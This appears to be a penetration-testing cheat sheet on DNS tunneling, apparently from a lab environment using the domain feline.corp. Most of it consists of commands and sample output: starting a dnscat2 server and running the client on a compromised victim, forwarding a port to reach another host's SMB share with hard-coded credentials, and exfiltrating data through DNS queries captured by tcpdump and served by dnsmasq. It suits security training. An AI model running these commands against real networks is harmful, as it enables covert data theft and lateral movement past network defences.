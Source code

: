We can use dnscat2 to exfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records. A dnscat2 server runs on an authoritative name server for a particular domain, and clients (which are configured to make queries to that domain) are run on compromised machines

Attack

* Inspect incoming DNS traffic from an Attacker controlled authoritive DNS
* Start dnscat2-server waiting for incoming client connections from the Victim

```bash
# Inspect incoming DNS traffic
sudo tcpdump -i ens192 udp port 53

# Start dnscat2 Server
dnscat2-server feline.corp

Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]

# Show sessions windows and interact with one
dnscat2> windows
dnscat2> window -i 1

# Establish a SSH local like forword
# listen on loopback 127.0.0.1
# listen on all interfaces 0.0.0.0
dnscat2> listen --help
dnscat2> listen 0.0.0.0:4455 <ANOTER-VICTIM>:445
```

Victim

```bash
./dnscat feline.corp

Session established!
```

Attack

```bash
user@kali$ smbclient -p 4455 -L //<DNS-SERVER> -U hr_admin --password=Welcome1234
```

## Manual DNS Tunneling using dnsmasq and nslookup

* Deep Packet Inspection does not allow in/out traffic from internal network
* Attacker has shell access to Victim
* Attacker has shell access to authoritive DNS
* Use dnsmasq -d to setup a DNS
* Use nslookup to exfiltrate or infiltrate data

Attack

```bash

# exfiltration using DNS A-record
sudo dnsmasq -C dnsmasq_txt.conf -d
sudo tcpdump -i ens192 udp port 53

04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)

# infiltration using DNS TXT-records
cat dnsmasq_txt.conf

  # Do NOT read /etc/resolve.conf or /etc/hosts
  no-resolv
  no-hosts
```